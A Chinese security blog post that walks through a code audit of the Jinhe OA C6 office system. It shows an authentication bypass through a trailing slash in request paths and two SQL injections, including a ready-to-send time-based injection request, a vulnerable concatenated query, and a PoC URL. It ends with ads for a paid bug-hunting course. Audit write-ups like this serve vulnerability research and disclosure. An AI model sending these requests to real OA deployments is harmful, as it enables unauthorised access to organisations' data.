 #  手把手教你审计金和OA系统漏洞   
原创 chobits02  Code4th安全团队   2025-02-11 23:45  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQGQG6ibYpsQ9hibUNQ9JogaBM4ETcLDdyuTknYvxjLbGCEQFKUEwbwpummEIZzqUcA3Mhaj6yJqd9Q/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
金和OA C6系统是一款功能强大、应用广泛的协同管理平台。主要是由CSharp开发，打包成dll文件。在审计源码时候要使用dnspy之类的工具反编译源码进行审计。  
  
贴一张我之前的CNVD代码审计提交成果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5qoyYkK2ZFLoLBVleSUpylN5yZQAPNxAnXfBp7gmC0ibmBUVn5ppoDRA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5uYvbu2yJeEoxn9BnE7lc0nJZOufPqFqUJKqIeOxhHRK68gauPOmeYQ/640?wx_fmt=png&from=appmsg "")  
  
这里随口唠叨一句，金和OA已经是非常古老的产物了，在我实习时就误打误撞拿到了备份的源码开启了我审计之旅，如今几年过去了金和OA无愧是代码审计的入门OA系统  
  
金和OA的源码和我对其代码审计的记录文档，已经放在团队的最新Freebuf知识大陆中，只是个红队内部小圈子  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5a3LJZtwaXaEHjsfNbTA6ImgdExDBYjMWEbnHyhgICuLibIgS0ibPAwAg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5CFeaxpLFd171rfw5K2F2NZwPR1CIeR8QafphBagK2kibty5WJgibm8Gw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5qQL3abianP8tvtPVicONcibxiapfBmUAZ9iapY4eOOWwZFDneMCeHqJ4szQ/640?wx_fmt=png&from=appmsg "")  
  
审计步骤文档和源码都已公开在知识大陆中  
  
  
从头开始，审计开始先要弄清楚入口在哪里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5yI3HwfSy0celECFROUxhefHxibGkia3JdK3cR0wqSxUOo3KjzCVx6s3g/640?wx_fmt=png&from=appmsg "")  
  
登录页面路由为  
```
/c6/Jhsoft.Web.login/PassWordSlide.aspx
```  
  
找到对应的dll文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5PiaH2RaSe9ZTHhlzLTOnlNkrfSjUMkab66YqrrsXJibIJ0kib50WwU3sQ/640?wx_fmt=png&from=appmsg "")  
  
反编译一下能找到  
PassWordSlide类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp56PTfwibvoAc9Vm9zAw18juaicMjAd92jl8V475Z2IVVmYGsUg9pmo7iaw/640?wx_fmt=png&from=appmsg "")  
  
说明它的路由规则是/c6/+dll的文件名称+方法名称.aspx  
  
而且能访问到的也只是带有JHSoft.Web前缀的dll文件中的方法  
  
有没有办法能绕过鉴权访问到不同文件里面的方法呢？办法是有的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp58Y9Gk7JibnYrAHBiafjDd6XHGB4Miah0KVzTibAcPHkSQG5GzayN1jSt3w/640?wx_fmt=png&from=appmsg "")  
> 文章 - .NET 某和OA办公系统全局绕过漏洞分析 - 先知社区  
  
> https://xz.aliyun.com/news/13954  
  
  
  
就像用友OA能用/~访问到任意的servlet方法，用com.ufida.web.action.ActionServlet方法能访问到任意的Action方法一样，金和OA也存在自身的逻辑漏洞，使用/就能达到访问任意方法的目的，甚至在后期修复时也没有完全解决这个问题，POST方法时用/.ashx仍能造成逻辑问题  
  
简单来审计一个SQL注入漏洞吧  
  
JHSoft.Web.IncentivePlan.dll文件中的IncentivePlanFulfill方法如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5iasfILPXMBCrmibDc8urnv5I8c62jPTGcTrsWjB2OnnUY3ylqxLNlmpQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5x306iaycr2H0vx0uA4FU4Jp0btQKBqOX9R4lFia5DGxM2yHJJA0dY1vA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5OIGFicaSwUSNvRjzdJFTMbXzZjlDibCzVz2mzeeI3XhYJLTSp2XgYF7Q/640?wx_fmt=png&from=appmsg "")  
  
其中IncentiveID一路追踪，最后直接拼接到了SQL语句中执行，造成SQL注入漏洞，很简单对吧，金和OA大大小小的SQL注入都差不多  
  
知道使用/能绕过权限验证，可以构造如下的POC  
```
GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1%20WAITFOR%20DELAY%20'0:0:5'--&TVersion=1 HTTP/1.1
Host: your-ip
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
验证一下延时注入了5秒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp51k6aPREoibib9Yic7rXs3Sq3hjJhdGOJh2MpVOAFs6XXhVlWOTpDicYs2w/640?wx_fmt=png&from=appmsg "")  
  
当然金和OA中也有不依赖逻辑漏洞的名副其实的漏洞  
  
路径如  
```
/c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo
```  
  
HomeService为Webservice文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5tN64oX6YzgUv7Z9bmv49rZDScYA6gMgPjkHbcvibcrqO4mX3pCVc2lA/640?wx_fmt=png&from=appmsg "")  
  
  
jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo方法中，GetQuickUserInfo查询userID  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5P3aciaMY74YsaJap1k6Wpdn97YMy5W6eqqB0MAQUd0M7ibibgfw9t6Iug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5XDajRVHyKKXlsfThiaAFS4mWSlel5icbWib6dzJITMYyZFsuqJPpLybxg/640?wx_fmt=png&from=appmsg "")  
  
来到抽象类ExecProcReDataTable继续追踪  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5qtTeVAxeic1JY8uKZmw87TaVOIRqI2QcicQWNXiacutY4gicxAx6IwsuIQ/640?wx_fmt=png&from=appmsg "")  
  
进入quickUserInfo判断条件  
  
由于quickUserInfo数组并不存在PhotoURL参数，text为空，进入判断MapAndFindFilebyRelativeFilePath方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5d00V4Q30kTt7j3e26QNBvkFozIHlxfjz5bv9V6cDicrNZZtjflMSZWA/640?wx_fmt=png&from=appmsg "")  
  
判断为false，text设为空，释放类quickUserInfo  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5EG524v23qWiblib3duPB5Z8fqd7v3DooSOk5zrWviaZick34w92UaPTMOw/640?wx_fmt=png&from=appmsg "")  
  
text为空进入条件string userSex = GetUserSex(userID);  
  
此处就可以看到userId拼接进了SQL语句中进行处理，造成了SQL注入  
```
string queryString = "select DossValue from dossiervalue a left join users b on a.RegCode=b.userid where a.DossierFieldID='3' and b.userid='" + userId + "'";
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT2YrFIN4ibUhvIBahrMGKp5eWqQXattb16VUOphtSs8xAFJI5E2iaoLxiajS0vJ76lmVMPasjhV8Dgw/640?wx_fmt=png&from=appmsg "")  
  
最后poc也能知道了：  
```
http://XXXX/c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=payload
```  
  
  
  
  
  
**每个初学挖洞的小白都有一个美梦**  
：是否可以在我学习挖洞技能的时候，有位师傅手把手指导，不仅教会我各种技术，还能带着我一起接项目挣钱，让我的技能和钱包同时“升级打怪”。  
  
    还真别说，现在这个天降大饼的美梦来了！  
FreeBuf  
知识大陆帮会《安全渗透感知大家族》，正好为你提供了这样的机会。在这里，你既能  
学到知识  
，又能  
做项目赚钱  
，还能在项目实践过程中与大佬们  
交流思路、夯实基础  
。  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651303102&idx=1&sn=6bd3abdb7109cc66aba29c207220abb3&chksm=bd1c3e358a6bb723efafa4f60e95a264aeea48508f9acef1444e8d5dded986457f046c39e3a2&scene=21#wechat_redirect)  
  
  
该**SRC漏洞挖掘出洞课程**  
，是由团队内部师傅根据实际挖洞经历整合的适合挖掘漏洞但是缺乏思路、刚接触学习漏洞挖掘不出漏洞的师傅们的漏洞挖掘教程。  
  
第一期课程价格  
199  
，这价格还要什么自行车？课程正在持续更新中~  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247485154&idx=1&sn=90f1bce91e53a5bf538bdef11fe15b2d&chksm=c2516dcbf526e4dd6d75254b70743d30902a7f0288d001148a41cc05e2d0b9fb09702d2ea03e&scene=21#wechat_redirect)  
  
  
**致远A8**  
，又称致远互联A8  
协同管理软件  
，是面向中型、大型、集团型组织（集团版OA）的数字化协同运营中台。A8版本的系统小版本较多，本次分析用的是致远A8 V7 SP1版本源码。  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247484688&idx=1&sn=928f50f70991a1979dcefb8d02cb02d6&chksm=c2516e39f526e72fae6fe053cf7ab537692bd5581a5552dfe7bfcee0588bd7e5c0d793f2f84b&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
END  
  
  
  
关注Cod  
e4th安全团队  
  
了解更多安全相关内容~  
  
  
  
  
  
  
